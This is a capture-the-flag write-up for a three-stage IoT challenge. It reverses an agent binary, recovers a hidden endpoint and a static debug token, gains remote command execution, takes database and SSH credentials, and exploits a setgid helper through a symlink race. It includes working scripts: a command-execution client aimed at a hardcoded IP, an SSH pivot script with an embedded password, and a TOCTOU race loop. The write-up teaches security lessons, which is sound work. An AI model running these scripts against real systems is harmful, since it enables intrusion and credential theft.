

# Suspicious device 1-3 Writeup

## TL;DR

This challenge chain starts with an SD card image from an IoT device and ends with a local race condition on an internal database host.

The full path was:

`sdcard.img -> reverse iot-agent -> recover hidden cloud endpoint/token -> DEBUG_EXEC -> extract DB creds -> extract SSH creds -> abuse setgid helper -> read final flag`

Recovered flags:

- `Suspicious device 1`: `FLAG{cl0ud_g4t3w4y_c0mpr0m1s3d}`
- `Suspicious device 2`: `FLAG{SQL_qu3ry_4t_r3m0t3_1s_d1ff1cult:(}`
- `Suspicious device 3`: `FLAG{c0ngr4tul4t10ns_th1s_1s_th3_f1n4l_fl4g:)}`

## Concept Map



## Initial Artifacts and What Stands Out

The provided archive contained a single file:

- `dist-suspicious_device.zip`
- `sdcard.img`

After inspection, the disk image had two partitions:

- A small FAT boot partition
- A larger ext4 root filesystem

The interesting files in the rootfs were:

- `/usr/bin/iot-agent`
- `/etc/iot-device/profile.conf`
- `/etc/iot-device/provision.bin`
- `/var/log/iot-agent.log`
- `/root/.ash_history`

Why these mattered:

- `iot-agent` was the only custom binary. That strongly suggested the real logic lived there.
- `profile.conf` gave the device identity: `dev-7f3a91c2`, model `thermo-gw-200`, region `jp-east`.
- `provision.bin` was only 32 bytes, which is exactly the kind of compact blob used to hide an endpoint or provisioning secret.
- `iot-agent.log` showed the device really did establish a cloud session and execute commands.
- `.ash_history` showed the operator had run `/usr/bin/iot-agent --debug-proto`, which was a strong hint that protocol reversing was the intended route.

The shell history was especially useful:

```sh
cat /etc/iot-device/profile.conf
/usr/bin/iot-agent --once
/usr/bin/iot-agent --debug-proto
```

That already tells us the challenge author wanted us to look at the agent's protocol behavior rather than only carving files.

## Stage 1 Analysis: Reversing the Device

Static analysis of `iot-agent` immediately exposed the protocol surface.

Interesting strings included:

- `IOT1`
- `HELLO`
- `PING`
- `GET_PROFILE`
- `UPLOAD_TELEMETRY`
- `DIAG_INFO`
- `DEBUG_EXEC`
- `{"token":"%s","cmd":"id"}`
- `/etc/iot-device/provision.bin`
- `dbg-9b7c4a1e-prod-only`

This already revealed two important facts:

1. The device used a custom protocol called `IOT1`.
2. There were hidden commands, not just the normal device-management operations.

The normal command set was:

- `HELLO`
- `PING`
- `GET_PROFILE`
- `UPLOAD_TELEMETRY`

The hidden command set was:

- `DIAG_INFO`
- `DEBUG_EXEC`

The agent also embedded a debug JSON template:

```json
{"token":"%s","cmd":"id"}
```

That is not diagnostic metadata. It is a remote command execution payload.

### Recovering the cloud endpoint

The next task was decoding `provision.bin`.

The agent reads 32 bytes from `/etc/iot-device/provision.bin`. The first 22 bytes are XORed against a 22-byte mask stored in the binary near the string `dbg-9b7c4a1e-prod-only`. Reversing that logic gives:

- Cloud host: `iot-cloud.ctf.ndias.jp`
- Port: `13337`

The port was derived from the final two host-related bytes using a small XOR transform in the agent. Once decoded, the result was clearly the service we needed.

### Recovering the debug token

The token was even simpler. It was compiled directly into the binary:

```text
dbg-9b7c4a1e-prod-only
```

At that point the intended stage-1 story was clear:

- The IoT device talks to a cloud gateway.
- The gateway accepts a hidden debug command.
- The debug channel is protected only by a static token compiled into the client.

That is already the "hidden mystery behind it": the device is shipping with a built-in backdoor.

## Stage 1 Exploitation and Flag Recovery

Once the endpoint and token were known, the only remaining work was speaking the `IOT1` protocol correctly.

The packet layout was:

- Magic: `IOT1`
- Version byte
- Command byte
- Flags byte
- Reserved byte
- Device ID as a 16-byte NUL-padded string
- Payload length as little-endian `u32`
- Payload
- CRC32 over header and payload

Using the real device ID from `profile.conf`:

```text
dev-7f3a91c2
```

we could connect to the cloud service and send `DEBUG_EXEC` directly.

The simplest proof was:

```json
{"token":"dbg-9b7c4a1e-prod-only","cmd":"id"}
```

That returned command output from the cloud host, confirming RCE.

From there, the stage-1 flag was just a file read:

```sh
cat /flag_stage1.txt
```

Flag:

```text
FLAG{cl0ud_g4t3w4y_c0mpr0m1s3d}
```

The first challenge was therefore solved by proving that the cloud gateway behind the IoT device had been compromised by design.

## Stage 2 Analysis: Cloud to Database Pivot

With command execution on the cloud host, the next question was obvious: what else does the service have access to?

Targeted enumeration of the application files showed:

- `/app/iot_cloud.py`
- `/app/protocol.py`
- `/app/db.py`
- `/app/config/cloud-topology.json`
- `/app/tools/query_db.py`

The most useful file was `/app/tools/query_db.py`. It exposed:

- DB host: `iot-db`
- DB port: `5432`
- DB name: `iot_cloud`
- DB user: `iot_ro`
- DB password: `ro-4b6d0f9a-stage2`

This mattered because it converted cloud RCE into direct access to the backing database. That is a much more powerful pivot than blindly grepping the cloud filesystem.

### Why `iot_ro` was enough

A quick schema inspection showed a table literally named `flag`, and `iot_ro` had `SELECT` access to it.

It also had read access to `maintenance_users`, which turned out to be the bridge into stage 3.

So even though the account name was "read-only", it was still privileged enough for exactly the data we needed.

## Stage 2 Exploitation and Flag Recovery

The exploitation step was straightforward once the credentials were known:

1. Use `DEBUG_EXEC` to invoke the DB helper or a short Python/PostgreSQL client.
2. Query the schema.
3. Read from the `flag` table.

The key query was:

```sql
SELECT flag FROM flag;
```

That returned:

```text
FLAG{SQL_qu3ry_4t_r3m0t3_1s_d1ff1cult:(}
```

This solved `Suspicious device 2`.

More importantly, the same database also contained:

```sql
SELECT * FROM maintenance_users;
```

which returned a maintenance account:

- Username: `dbmaint`
- Password: `Maint@2026!`
- Host: `iot-db`

That was the natural pivot into the last challenge.

## Stage 3 Analysis: Database Host Pivot

At this point the interesting question was no longer "can we read the database?" but "what can we do with the maintenance account on the database host?"

Using the cloud foothold, we tested connectivity to the internal host and confirmed that `iot-db:22` was reachable. SSH with the recovered credentials worked, giving a shell as `dbmaint`.

The stage-3 flag was not in the database. Instead, host enumeration revealed:

```text
/home/flagreader/flag_stage3.txt
```

with permissions:

```text
-r--r----- 1 root flagreader 47 ... /home/flagreader/flag_stage3.txt
```

That meant:

- `dbmaint` could not read it directly.
- `flagreader` could read it.
- We needed a local pivot to `flagreader`, not necessarily root.

### Why generic privesc was not the point

Basic checks did not produce an easy win:

- no useful `sudo`
- no obvious privileged PostgreSQL role inheritance
- no simple file read via `pg_read_file`
- no direct login as `flagreader`

This was important because it told us the intended route was probably challenge-specific, not general host exploitation.

### The intended target: `db_diag_report`

Eventually we found:

```text
/usr/local/bin/db_diag_report
```

with permissions:

```text
-rwxr-sr-x 1 root flagreader ... /usr/local/bin/db_diag_report
```

This was the key observation. The binary was not setuid root. It was setgid `flagreader`.

So if we could trick that helper into opening `/home/flagreader/flag_stage3.txt`, it would read the file with `flagreader` group privileges and print the contents for us.

String inspection of the binary showed:

- it only accepted paths under `/tmp/dbdiag/`
- it rejected symlinks with `lstat`
- it required the file to be owned by the calling user
- it used `open` after validation
- it imported `usleep`

That combination strongly suggested a classic time-of-check to time-of-use bug:

1. `lstat` checks a benign file
2. ownership is validated
3. a delay happens
4. `open` happens later

If the path is swapped between the check and the open, the helper can be tricked into opening a different file.

## Stage 3 Exploitation and Flag Recovery

The exploitation strategy was:

1. Place a normal file in `/tmp/dbdiag/` owned by `dbmaint`
2. Repeatedly replace it with a symlink to `/home/flagreader/flag_stage3.txt`
3. Run `db_diag_report` in a loop until the race lands

When the validation saw the owned file but `open()` later followed the symlink target, the program printed the final flag.

Recovered flag:

```text
FLAG{c0ngr4tul4t10ns_th1s_1s_th3_f1n4l_fl4g:)}
```

This completed `Suspicious device 3`.

## Interactive Details: Device, Cloud, and Player

### Protocol summary

- Magic: `IOT1`
- Device ID used in the solve: `dev-7f3a91c2`
- Normal commands:
  - `HELLO`
  - `PING`
  - `GET_PROFILE`
  - `UPLOAD_TELEMETRY`
- Hidden commands:
  - `DIAG_INFO`
  - `DEBUG_EXEC`

### Example telemetry payload

```json
{"temperature":24.1,"humidity":40.2}
```

### Example debug payload

```json
{"token":"dbg-9b7c4a1e-prod-only","cmd":"id"}
```

### Example `HELLO` interaction

High-level request:

```text
command = HELLO
device_id = dev-7f3a91c2
payload = empty
```

Response:

```json
{"ok": true, "device_id": "dev-7f3a91c2", "status": "active"}
```

### Example `DEBUG_EXEC` interaction

Request:

```json
{"token":"dbg-9b7c4a1e-prod-only","cmd":"id"}
```

Response:

```json
{
  "ok": true,
  "output": "uid=1000(iot_cloud) gid=1000(iot_cloud) groups=1000(iot_cloud)\n",
  "returncode": 0
}
```

### Example stage-2 database interaction

Query:

```sql
SELECT device_id, serial, status FROM devices ORDER BY device_id;
```

Representative output:

```text
('dev-7f3a91c2', 'thermo-gw-200-001', 'active')
('dev-814aa0b9', 'thermo-gw-200-002', 'inactive')
```

That confirmed the service-side database was real and not a toy stub.

## Programs and Scripts Used

### 1. Compact `DEBUG_EXEC` helper

This is the core helper that builds an `IOT1` packet and sends a `DEBUG_EXEC` request:

```python
#!/usr/bin/env python3
import json
import socket
import struct
import sys
import zlib

HOST = "40.81.223.109"
PORT = 13337
DEVICE = "dev-7f3a91c2"
TOKEN = "dbg-9b7c4a1e-prod-only"


def build_packet(command: int, payload: bytes) -> bytes:
    device = DEVICE.encode().ljust(16, b"\0")
    header = b"IOT1" + bytes([1, command, 0, 0]) + device + struct.pack("<I", len(payload))
    crc = zlib.crc32(header + payload) & 0xFFFFFFFF
    return header + payload + struct.pack("<I", crc)


def recv_exact(sock: socket.socket, n: int) -> bytes:
    out = b""
    while len(out) < n:
        chunk = sock.recv(n - len(out))
        if not chunk:
            raise EOFError("short read")
        out += chunk
    return out


def debug_exec(cmd: str) -> dict:
    payload = json.dumps({"token": TOKEN, "cmd": cmd}).encode()
    packet = build_packet(0x7F, payload)

    with socket.create_connection((HOST, PORT), timeout=5) as sock:
        sock.sendall(packet)
        header = recv_exact(sock, 28)
        length = struct.unpack("<I", header[24:28])[0]
        body = recv_exact(sock, length)
        recv_exact(sock, 4)

    return json.loads(body.decode())


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"usage: {sys.argv[0]} <command>")
        raise SystemExit(1)
    print(json.dumps(debug_exec(sys.argv[1]), indent=2))
```

### 2. SSH-over-`DEBUG_EXEC` idea

Once the maintenance credentials were recovered, the cloud host could be used as a jump point into `iot-db`:

```python
#!/usr/bin/env python3
import json
import shlex
import subprocess
import sys


def main() -> int:
    if len(sys.argv) != 2:
        print(f"usage: {sys.argv[0]} <remote command>")
        return 1

    remote_cmd = sys.argv[1]
    py = f"""
import os, pty, select, sys
pid, fd = pty.fork()
if pid == 0:
    os.execvp('ssh', [
        'ssh',
        '-o', 'StrictHostKeyChecking=no',
        '-o', 'UserKnownHostsFile=/tmp/known_hosts',
        'dbmaint@iot-db',
        {remote_cmd!r}
    ])
buf = b''
sent = False
while True:
    r, _, _ = select.select([fd], [], [], 15)
    if not r:
        break
    data = os.read(fd, 4096)
    if not data:
        break
    sys.stdout.buffer.write(data)
    sys.stdout.flush()
    buf += data.lower()
    if b'password:' in buf and not sent:
        os.write(fd, b'Maint@2026!\\n')
        sent = True
"""
    return subprocess.call(["python3", "debug_exec.py", f"python3 -c {shlex.quote(py)}"])


if __name__ == "__main__":
    raise SystemExit(main())
```

This is not strictly necessary for the conceptual writeup, but it makes the cloud-to-SSH pivot explicit.

### 3. Stage-3 race against `db_diag_report`

The winning approach was a tight loop that constantly swaps a checked file for a symlink:

```sh
mkdir -p /tmp/dbdiag
printf x >/tmp/dbdiag/owned

(while :; do
    cp -f --remove-destination /tmp/dbdiag/owned /tmp/dbdiag/report
    ln -sfn /home/flagreader/flag_stage3.txt /tmp/dbdiag/report
done) &

RACER=$!

for i in $(seq 1 20000); do
    OUT=$(/usr/local/bin/db_diag_report /tmp/dbdiag/report 2>/dev/null)
    case "$OUT" in
        *FLAG*|*flag*)
            echo "$OUT"
            break
            ;;
    esac
done

kill $RACER
```

This is the moment where the challenge shifts from database pivoting to local exploitation.

## What We Learned

- A tiny provisioning blob can hide a complete cloud endpoint if the client performs the decode locally.
- A compiled-in debug token is not protection. Once the firmware or binary is available, that token should be considered public.
- "Read-only" database access can still be enough to lose the entire environment if secrets are stored in readable tables.
- Internal maintenance accounts are often more valuable than the first-stage flag because they bridge trust zones.
- Small helper binaries deserve the same scrutiny as network services. `db_diag_report` looked harmless until its check-then-open pattern exposed a clean TOCTOU bug.
- The full challenge chain is a good reminder that secure design failures compound:
  - static client secret
  - hidden RCE command
  - exposed internal credentials
  - privileged helper with a race condition

In other words, none of the later pivots would have mattered without the original device backdoor, and the original device backdoor became much worse because every internal layer trusted the previous one too much.
